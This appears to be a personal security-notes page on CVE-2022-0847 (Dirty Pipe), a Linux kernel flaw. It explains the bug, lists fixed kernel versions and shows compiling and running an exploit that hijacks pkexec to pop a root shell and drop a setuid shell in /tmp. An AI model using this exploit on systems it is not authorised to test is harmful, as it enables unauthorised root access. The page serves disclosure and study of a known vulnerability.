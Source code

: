 ```yaml
---
title : "CVE-2022-0847"
# pre : ' '
description : "The Dirty Pipe Vulnerability."
date : 2022-03-08T10:20:03+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2022-0847 - The Dirty Pipe Vulnerability

This is the story of CVE-2022-0847, a vulnerability in the Linux kernel since 5.8 which allows overwriting data in arbitrary read-only files. This leads to privilege escalation because unprivileged processes can inject code into root processes.

It is similar to CVE-2016-5195 “Dirty Cow” but is easier to exploit.

The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102.

### Compiling

{{%attachments fa_icon_class="far fa-file" pattern=".*(c)"%}}

```plain
$ gcc dirtypipez.c -o dirtypipez

$ file dirtypipez         
dirtypipez: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7aee8d04713d6c27bc73e3f5fb59b1eee5feeaf, for GNU/Linux 3.2.0, not stripped
```

### Exploiting

```plain
$ id
uid=1000(crypt0rr) gid=1000(crypt0rr) groups=1000(crypt0rr)

$ ./dirtypipez /usr/bin/pkexec
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
# 
```

The vulnerable binary is run from `/tmp/sh`. Remember to remove it after using/re-using.

```plain
$ ls -l /tmp/sh
-rwsr-xr-x 1 root crypt0rr 186 Mar  8 10:19 /tmp/sh
```

## URL List

- [Dirtypipe.cm4all.com - The Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/)
- [Cve.mitre.org - CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
- [Twitter.com - CVE-2022-0847 Dirty Pipe](https://twitter.com/jas502n/status/1500879361448493056?s=11)
